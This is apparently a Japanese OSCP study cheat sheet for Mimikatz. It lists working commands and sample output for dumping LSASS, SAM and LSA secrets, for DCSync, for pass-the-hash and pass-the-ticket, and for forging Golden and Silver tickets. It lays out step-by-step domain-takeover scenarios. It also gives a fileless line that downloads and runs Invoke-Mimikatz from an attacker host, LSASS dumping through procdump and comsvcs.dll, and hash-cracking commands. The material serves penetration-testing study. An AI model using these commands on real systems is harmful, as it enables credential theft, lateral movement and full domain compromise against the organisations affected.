


## TL;DR

Mimikatz は Windows のメモリから認証情報・トークン・Kerberos チケットを取り出すオープンソースのポストエクスプロイテーションツールです。**OSCP の AD 攻略において各モジュールの使い方と出力を読む力は必須スキルです。** 本記事では主要なコマンドを使いどころ・OPSEC 上の注意点とともにまとめます。

---

## Mimikatz とは

Mimikatz（作者: Benjamin Delpy `@gentilkiwi`）は LSASS プロセスや各種 Windows API を悪用して以下を取得します：

- 平文パスワード（古いシステムで WDigest 有効な場合）
- NTLM パスワードハッシュ
- Kerberos チケット（TGT / ST）
- DPAPI マスターキー

```
          ┌─────────────────────────────┐
          │        Mimikatz             │
          │                             │
          │  sekurlsa::  ← LSASS       │
          │  lsadump::   ← SAM/NTDS    │
          │  kerberos::  ← チケット    │
          │  token::     ← 偽装        │
          │  dpapi::     ← データ復号  │
          └─────────────────────────────┘
```

---

## 実行前提・準備

### 必要な権限

| コマンドカテゴリ | 最低必要権限 |
|---|---|
| `sekurlsa::logonpasswords` | ローカル管理者 + `SeDebugPrivilege` |
| `lsadump::sam` | ローカル管理者 |
| `lsadump::dcsync` | ドメイン管理者 or レプリケーション権限 |
| `kerberos::ptt` | 一般ユーザー |
| `token::elevate` | ローカル管理者 |

### デバッグ権限の有効化

ほぼ全ての操作で必須です。最初に必ず実行：

```
privilege::debug
```

成功すると `Privilege '20' OK` が表示されます。

### SYSTEM に昇格

```
token::elevate
```

---

## モジュールリファレンス

### sekurlsa — LSASS メモリからの抽出

#### ログオン情報の全ダンプ

```
sekurlsa::logonpasswords
```

**注目すべきフィールド：**

| フィールド | 内容 |
|---|---|
| `msv` | NTLM ハッシュ |
| `wdigest` | 平文パスワード（WDigest が有効な場合） |
| `kerberos` | Kerberos 認証情報 |
| `tspkg` | ターミナルサービス認証情報 |
| `ssp` | SSP 認証情報 |

**出力例：**

```
Authentication Id : 0 ; 299108 (00000000:000491a4)
Session           : Interactive from 1
User Name         : alice
Domain            : CORP
...
        msv :
         [00000003] Primary
         * Username : alice
         * Domain   : CORP
         * NTLM     : aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
        wdigest :
         * Username : alice
         * Domain   : CORP
         * Password : P@ssw0rd123
```

#### Kerberos チケットの抽出

```
sekurlsa::tickets /export
```

カレントディレクトリに `.kirbi` ファイルとして出力されます。`kerberos::ptt` で使用可能。

#### Pass-the-Hash（PTH）

平文パスワード不要で、キャプチャした NTLM ハッシュを使って新しいプロセスを起動：

```
sekurlsa::pth /user:administrator /domain:corp.local /ntlm:8846f7eaee8fb117ad06bdd830b7586c /run:cmd.exe
```

| パラメータ | 説明 |
|---|---|
| `/user` | 対象ユーザー名 |
| `/domain` | ドメイン名（ローカルは `.`） |
| `/ntlm` | NT ハッシュ（`LM:NT` の後半部分） |
| `/run` | 起動するプロセス（省略時: `cmd.exe`） |

**PTH フロー：**



---

### lsadump — SAM / NTDS ダンプ

#### ローカル SAM データベースのダンプ

```
lsadump::sam
```

SYSTEM 権限が必要。ローカルアカウントのハッシュを取得：

```
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: fc525c9683e8fe067095ba2ddc971889
```

#### DCSync によるドメイン認証情報の取得

DC 上の LSASS に触れず、レプリケーションを模倣してハッシュを取得：

```
lsadump::dcsync /domain:corp.local /user:administrator
```

全ユーザーのダンプ（時間がかかるため注意）：

```
lsadump::dcsync /domain:corp.local /all /csv
```

**DCSync フロー：**



> **OSCP メモ：** DCSync には `DS-Replication-Get-Changes` + `DS-Replication-Get-Changes-All` 権限が必要。Domain Admins はデフォルトで保有。

#### LSA シークレットのダンプ

```
lsadump::secrets
```

レジストリに保存されているサービスアカウントのパスワードなどを取得。

---

### kerberos — チケット操作

#### キャッシュされたチケットの一覧表示

```
kerberos::list /export
```

#### Pass-the-Ticket（PTT）

`.kirbi` ファイルを現在のセッションに注入：

```
kerberos::ptt ticket.kirbi
```

注入確認：

```
kerberos::list
```

#### チケットの全削除

```
kerberos::purge
```

#### Golden Ticket（黄金券）

`krbtgt` アカウントのハッシュを使って TGT を偽造。永続的なドメインアクセスが可能：

```
kerberos::golden /user:FakeAdmin /domain:corp.local /sid:S-1-5-21-1234567890-987654321-111111111 /krbtgt:KRBTGT_NTLM_HASH /ptt
```

| パラメータ | 取得方法 |
|---|---|
| `/sid` | `whoami /user` → 末尾の `-RID` を除いた部分 |
| `/krbtgt` | `lsadump::dcsync /user:krbtgt` |
| `/ptt` | メモリに即時注入 |

#### Silver Ticket（銀の券）

DC に接触せず特定 SPN 向けのサービスチケットを偽造：

```
kerberos::golden /user:FakeUser /domain:corp.local /sid:S-1-5-21-... /target:fileserver.corp.local /service:cifs /rc4:SERVICE_ACCOUNT_NTLM /ptt
```

| チケット種別 | 必要なもの | アクセス範囲 |
|---|---|---|
| Golden | `krbtgt` ハッシュ | ドメイン内任意のサービス |
| Silver | サービスアカウントハッシュ | 指定サービスのみ |

---

### token — トークン偽装

#### 利用可能なトークン一覧

```
token::list
```

#### SYSTEM トークンに昇格

```
token::elevate
```

#### 特定ユーザーのトークンを偽装

```
token::elevate /domainadmin
```

#### 元のトークンに戻す

```
token::revert
```

---

## OSCP 実戦フロー

### シナリオ 1：PTH による横移動

```
# 1. 侵害ホストで LSASS ダンプ
privilege::debug
sekurlsa::logonpasswords

# 2. 取得したハッシュで別ユーザーとして起動
sekurlsa::pth /user:svc-sql /domain:corp.local /ntlm:<HASH> /run:cmd.exe

# 3. 新しいシェルから対象にアクセス
net use \\dc01\C$ /user:corp\svc-sql
```

### シナリオ 2：DCSync によるドメイン掌握

```
# 前提：Domain Admin 権限またはレプリケーション権限が必要

# 1. krbtgt のハッシュ取得
lsadump::dcsync /domain:corp.local /user:krbtgt

# 2. Administrator のハッシュ取得
lsadump::dcsync /domain:corp.local /user:administrator

# 3. Golden Ticket 偽造
kerberos::golden /user:Administrator /domain:corp.local /sid:<DOMAIN_SID> /krbtgt:<KRBTGT_HASH> /ptt

# 4. DC にアクセス
dir \\dc01.corp.local\C$
```

### シナリオ 3：チケット窃取 + PTT

```
# 1. チケットを全て書き出し
sekurlsa::tickets /export

# 2. 価値の高いチケットを特定（例：DA の TGT）
# ls *.kirbi

# 3. チケットを注入
kerberos::ptt [0;3e4]-2-1-40e10000-alice@krbtgt-CORP.LOCAL.kirbi

# 4. 確認とアクセス
kerberos::list
dir \\dc01\C$
```

---

## ディスクに落とさない実行方法

### PowerShell 経由でメモリから実行

```powershell
# Invoke-Mimikatz（PowerSploit）
IEX (New-Object Net.WebClient).DownloadString('http://attacker/Invoke-Mimikatz.ps1')
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

### LSASS ダンプ → オフライン解析

1. ターゲット上でダンプ（procdump を使用）：

```powershell
procdump.exe -ma lsass.exe lsass.dmp
```

2. 攻撃者マシン上でオフライン解析：

```
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### comsvcs.dll 経由（追加ツール不要）

```powershell
$lsass = Get-Process lsass | Select -ExpandProperty Id
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsass lsass.dmp full
```

---

## 出力の読み方

### NTLM ハッシュの形式

```
NTLM: aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c
       ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
              LM ハッシュ（空/無効）           NT ハッシュ（こちらを使用）
```

コロン後の**後半部分**を PTH やクラッキングに使います。

### Hashcat でクラック

```bash
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
```

### John でクラック

```bash
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

---

## クイックリファレンス

| 目的 | コマンド |
|---|---|
| デバッグ権限の有効化 | `privilege::debug` |
| 全認証情報のダンプ | `sekurlsa::logonpasswords` |
| Kerberos チケットのエクスポート | `sekurlsa::tickets /export` |
| Pass-the-Hash | `sekurlsa::pth /user:X /ntlm:HASH /run:cmd.exe` |
| SAM ダンプ（ローカル） | `lsadump::sam` |
| DCSync | `lsadump::dcsync /domain:X /user:Y` |
| Golden Ticket 偽造 | `kerberos::golden /user:X /krbtgt:HASH /ptt` |
| Silver Ticket 偽造 | `kerberos::golden /service:cifs /rc4:HASH /ptt` |
| チケットの注入 | `kerberos::ptt ticket.kirbi` |
| トークン昇格 | `token::elevate` |
| LSASS オフライン解析 | `sekurlsa::minidump lsass.dmp` |
